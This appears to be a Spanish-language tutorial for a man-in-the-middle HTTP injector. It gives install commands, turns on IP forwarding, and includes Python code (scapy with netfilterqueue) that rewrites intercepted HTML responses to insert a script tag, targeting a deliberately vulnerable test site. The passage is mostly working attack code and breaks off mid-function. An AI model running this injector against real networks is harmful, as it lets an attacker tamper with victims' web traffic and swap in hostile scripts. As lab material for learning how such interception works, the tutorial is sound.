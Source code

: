 
### ✅ Instalación del entorno

#### 1. Instala dependencias

```bash
sudo apt update
sudo apt install python3 python3-pip libnetfilter-queue-dev iptables
pip3 install scapy netfilterqueue
```

#### 2. Habilita el redireccionamiento de IP (si estás en modo MITM)

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

---

### 🎯 ¿Qué vamos a hacer?

Modificaremos una página web **HTTP** en tiempo real. Por ejemplo:

- El navegador de la víctima accede a `http://testphp.vulnweb.com`.
- El atacante modifica el HTML en vivo e inyecta un **`<script>` de alerta**.
- El navegador muestra la alerta como si viniera del servidor.

---

### 📜 Código completo: `http_injector.py`

```python
from netfilterqueue import NetfilterQueue
from scapy.all import IP, TCP, Raw
import re

# Código que queremos inyectar
INJECTION = '<script>alert("¡Código inyectado con éxito!");</script>'

def process_packet(packet):
    scapy_pkt = IP(packet.get_payload())

    # Solo procesamos paquetes TCP con datos (HTTP normalmente usa TCP)
    if scapy_pkt.haslayer(Raw) and scapy_pkt.haslayer(TCP):
        load = scapy_pkt[Raw].load

        # Buscamos respuestas HTTP que contengan HTML
        if b"HTTP/" in load and b"Content-Type: text/html" in load:
            print("[+] Paquete HTTP detectado")

            # Inyectamos antes de </body>
            new_load = load.replace(b"</body>", INJECTION.encode() + b"</body>")

            # Actualizamos el Content-Length si es que existe
            content_length = re.search(br"Content-Length:\s*(\d+)", new_load)
            if content_length:
                old_length = int(content_length.group(1))
                new_length = old_length + len(INJECTION)
                new_load = re.sub(
                    br"Content-Length:\s*\d+",
                    f"Content-Length: {new_length}".encode(),
                    new_load
                )

            # Reemplazamos el payload modificado
            scapy_pkt[Raw].load = new_load
```